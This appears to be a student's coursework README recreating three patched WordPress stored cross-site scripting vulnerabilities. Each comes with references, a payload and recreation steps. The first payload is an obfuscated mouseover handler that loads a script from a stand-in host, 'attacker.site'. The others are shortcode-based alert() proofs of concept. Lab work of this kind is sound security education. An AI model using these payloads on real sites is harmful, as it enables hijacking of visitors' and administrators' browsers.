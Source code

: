 # CyberSecurityWeek7
My assignment for week 7

Exploit 1:

[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7945
    Reference: http://klikki.fi/adv/wordpress2.html
    Reference: http://packetstormsecurity.com/files/131644/
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1

Source Code:

<a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

Guide for recreation:

I made a comment on a post not as an admin using XSS. 
The comment content had to be greater than 64kb in order to work. 
After the comment was submitted, I approved the comment as the admin, and went to view the post with the comments. 
On the load of the page the exploit was ran. This vulnerability was patched in WordPress 4.2.1.


Exploit 2:

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

Source Code:

<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>

Guide for recreation:

I made a post as a user with Author privileges using the source code as the content of the post. 
I then signed in as an admin and when viewing the post, the script ran on mouseover of the post. 
This vulnerability was patched in WordPress 4.2.3.


Exploit 3:

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

Source Code: 

TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>

Guide for recreation:
I made a post as a user with Author privileges using the source code for the content of the post. 
I then signed in as an admin and then when going to click the link, the script runs on mouseover instead of onclick.
This vulnerability was patched in WordPress 4.2.5.
